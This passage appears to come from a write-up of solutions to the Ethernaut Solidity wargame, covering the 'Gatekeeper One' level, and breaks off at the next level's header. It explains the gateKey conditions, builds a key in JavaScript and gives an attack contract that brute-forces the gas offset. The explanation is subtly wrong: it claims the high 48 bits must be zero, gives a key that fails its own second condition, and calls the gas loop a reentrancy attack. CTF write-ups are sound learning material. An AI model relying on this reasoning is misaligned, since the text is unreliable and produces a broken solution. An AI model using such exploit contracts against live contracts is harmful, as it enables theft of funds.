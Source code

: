 Condition 1: uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
After converting _gateKey to 64-bit unsigned integer, first 32 bits and first 16 bits must be same.
Explanation:
High 48 bits of _gateKey must be 0, so first 32 bits and first 16 bits will be identical.
Example: _gateKey = 0x000000000000ABCD.
Condition 2: uint32(uint64(_gateKey)) != uint64(_gateKey)
After converting _gateKey to 64-bit unsigned integer, first 32 bits and full 64 bits cannot be same.
Explanation:
Low 32 bits of _gateKey cannot all be 0, otherwise first 32 bits and full 64 bits would be same.
Example: _gateKey = 0x00000000XXXXXXXX, where XXXXXXXX is not 0.
Condition 3: uint32(uint64(_gateKey)) == uint16(tx.origin)
First 16 bits of _gateKey must equal last 2 bytes of your external account address.
Explanation:
tx.origin is your external account address.
Address is 20 bytes (160 bits), last 2 bytes are low 16 bits of address.
```js
const txOrigin = web3.eth.defaultAccount; // Your external account address
const keyPart = txOrigin.slice(-4); // Get last 4 characters (2 bytes) of address
const gateKey = `0x000000000000${keyPart}`; // Construct _gateKey
```
3. Design attack contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperOneAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack(bytes8 _gateKey) public {
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = target.call{gas: i + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", _gateKey)
            );
            if (success) {
                break;
            }
        }
    }
}
```

Key learnings:
- Understanding GateKey design principles
- Use for loop to repeatedly attack until gasleft() % 8191 == 0, call function for reentrancy attack
- Understand difference between msg.sender and tx.origin

## 14. Gatekeeper Two ✅ [Hard]
